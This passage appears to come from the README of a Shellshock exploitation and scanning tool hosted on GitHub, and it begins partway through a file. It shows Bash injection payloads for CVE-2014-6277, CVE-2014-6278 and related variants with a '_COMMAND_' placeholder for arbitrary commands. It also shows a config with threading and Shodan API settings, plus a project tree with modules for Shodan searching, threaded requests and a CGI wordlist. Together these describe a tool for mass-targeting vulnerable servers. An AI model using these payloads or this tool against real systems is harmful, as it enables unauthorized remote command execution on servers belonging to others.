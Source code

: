 ```json
        "() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'",
    "CVE-2014-6278-2":    
        "shellshocker='() { echo _CHECKER_; }' bash -c shellshocker",
    "CVE-2014-6277":
        "() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_",
    "CVE-2014-*":
        "() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'"
}
```
### Source file ( Config )
>pwd: assets/config.json
```json
{
    "config": {
        "threads": 20,
        "path": {
            "path_output": "output/",
            "path_wordlist": "wordlist/",
            "path_modules": "modules/",
            "path_assets": "assets/"
        },
        "files_assets":{
            "config": "assets/config.json",
            "autor": "assets/autor.json",
            "exploits": "assets/exploits.json"
        },
        "api":{
            "shodan":"",
            "ipinfo":""
        }
    }
}
```
### Tree

```bash
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print00.png
│       ├── print01.png
│       ├── print02.png
│       └── print03.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_shock.py
│   ├── color_shock.py
│   ├── debug_shock.py
│   ├── file_shock.py
│   ├── __init__.py
│   ├── request_shock.py
│   ├── shodan_shock.py
│   └── thread_shock.py
├── output
│   └── vuln.txt
├── README.md
└── wordlist
    └── cgi.txt
```